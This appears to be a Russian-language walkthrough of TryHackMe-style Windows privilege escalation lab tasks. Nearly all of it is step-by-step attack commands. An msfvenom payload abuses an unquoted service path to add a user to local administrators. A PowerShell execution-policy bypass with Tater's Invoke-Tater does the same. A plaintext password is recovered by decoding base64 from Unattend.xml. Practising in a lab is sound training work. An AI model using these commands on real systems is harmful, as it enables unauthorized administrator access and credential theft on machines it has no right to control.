 Эксплуатация

Кали ВМ

1. Откройте командную строку и введите:  `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
2. Скопируйте сгенерированный файл common.exe на виртуальную машину Windows .

ВМ Windows

1. Поместите common.exe в 'C:\Program Files\Unquoted Path Service'.
2. Откройте командную строку и введите: sc start unquotedsvc
3. Можно подтвердить, что пользователь был добавлен в группу локальных администраторов, введя в командной строке следующее: `net localgroup administrators`

Для дополнительной практики рекомендуется попробовать комнату TryHackMe Steel Mountain ( https://tryhackme.com/room/steelmountain ).

### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```
## Задание 11
Эксплуатация

ВМ Windows

1. В командной строке введите: `powershell.exe -nop -ep bypass`
2. В командной строке Power Shell введите: `Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1 `
3. В командной строке Power Shell введите: `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"` 
4. Чтобы подтвердить успешность атаки, в командной строке Power Shell введите: `net localgroup administrators`


### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 12
Эксплуатация

ВМ Windows

1. Откройте командную строку и введите:  `notepad C:\Windows\Panther\Unattend.xml` 
2. Прокрутите страницу вниз до свойства «<Password>» и скопируйте строку base64, заключенную между тегами «<Value>» под ним.

Кали ВМ

1. В терминале введите: `echo [copied base64] | base64 -d`
2. Обратите внимание на пароль в открытом виде.
